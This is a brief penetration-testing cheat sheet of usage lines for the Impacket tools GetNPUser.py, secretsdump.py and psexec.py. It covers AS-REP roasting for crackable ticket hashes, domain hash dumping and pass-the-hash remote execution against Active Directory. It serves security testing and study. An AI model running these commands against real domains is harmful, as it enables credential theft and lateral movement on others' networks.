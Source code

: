 # GetNPUser.py #AD 
    used for: 
          This script will attempt to list and get TGTs for those users that have the property
    usage:
          GetNPUser.py DOMAIN.local/USERNAME PASSWORD or -no-pass 
		  GetNPUser.py -dc-ip IP -request 'DOMAIN'
		  GetNPUser.py -dc-ip IP -request 'DOMAIN' -format hashcat 


# secretsdump.py #hashdump 
    used for
	    hashdumping
	usage:
	    secretsdump.py DOMAIN/USERNAME:'PASSWORD'@IP -just-dc
		
		
# psexec.py #passhash
    used for: 
	    1- passing hashes
		2- creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe
	usage 1 : 
	    psexec.py USUERNAME@IP -hashes HASH
	usage 2 :
	  psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP
		

		